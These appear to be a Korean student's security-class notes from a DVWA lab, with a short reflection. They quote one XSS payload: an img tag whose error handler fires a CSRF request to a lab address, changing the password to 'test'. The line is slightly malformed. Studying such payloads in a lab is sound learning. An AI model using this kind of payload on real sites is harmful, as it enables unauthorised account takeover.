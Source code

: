 오늘의 수업
-

#### 비밀번호를 XXS를 사용해서 바꾸기 실습
    실행이 직접적으로 보지는 못하여 실패 
    그냥 
                        
      <img+src="https://ugc.production.linktr.ee/jl9DQQM1QxiPQklpiKii_GjzZ0fFXW61vAGZx"+oneerror='this.src="http://192.168.126.128:9980/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change"'/>
    
    이러한 코드를 사용한다 정도만 알려둬야 함.

#### sql를 주입하다의 주제

![image](https://github.com/user-attachments/assets/558caa3b-4c54-45ab-a867-7cd0caf61573)


---

<details>
<summary> 소감 </summary>
    
    이해는 어느정도 되었고 수업이 되게 흥미롭다는 느낌을 받은 오늘의 수업이였다.
    여러가지를 찾으면서 어떤 식으로 하는지를 알게 되었고 점점 이러한 수업과 보안에 대해서
    익숙해지면서 이해가 조금씩 더 잘 되고 있는거 같다는 생각이 들었다.
    
</details>
